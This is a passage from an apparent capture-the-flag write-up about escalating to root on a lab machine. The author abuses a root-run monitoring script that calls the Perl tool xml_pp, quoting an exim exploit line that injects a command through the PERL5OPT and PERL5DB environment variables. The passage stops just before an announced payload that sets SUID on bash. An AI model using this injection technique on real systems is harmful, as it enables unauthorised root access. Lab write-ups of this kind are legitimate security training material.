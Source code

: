 ```bash
cat /opt/monitor.sh
```

```bash
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;

data=$(/usr/bin/curl -s http://clicker.htb/diagnostic.php?token=secret_diagnostic_token);
/usr/bin/xml_pp <<< $data;
if [[ $NOSAVE == "true" ]]; then
    exit;
else
    timestamp=$(/usr/bin/date +%s)
    /usr/bin/echo $data > /root/diagnostic_files/diagnostic_${timestamp}.xml
fi
```

This script will use /usr/bin/curl, /usr/bin/echo, which are regular binaries

/usr/bin/xml_pp is a perl script that aims at pretty-print XML

Searching for a perl exploit, we can fin this :

[https://www.exploitalert.com/view-details.html?id=23687](https://www.exploitalert.com/view-details.html?id=23687)

With a reference to the perl documentation : `http://perldoc.perl.org/perlrun.html`

This is an exploit for exim with the following command line :

```ruby
cmd_exec(%Q{PERL5OPT=-d PERL5DB='exec "#{c}"' exim -ps 2>&-})
```

These options are set prior the execution :

```bash
PERL5OPT=-d PERL5DB='exec "#{c}"'
```

- PERL5DB: The command used to load the debugger code.
- The PERL5DB environment variable is only used when Perl is started with a bare ["-d"](https://perldoc.perl.org/perlrun#-d) switch.
- PERL5OPT sets the  ["-d"](https://perldoc.perl.org/perlrun#-d) switch.

So we have to set a payload to be executed prior the script.

This is called “perl_startup”

Let’s do it, with a simple payload to set SUID on bash:
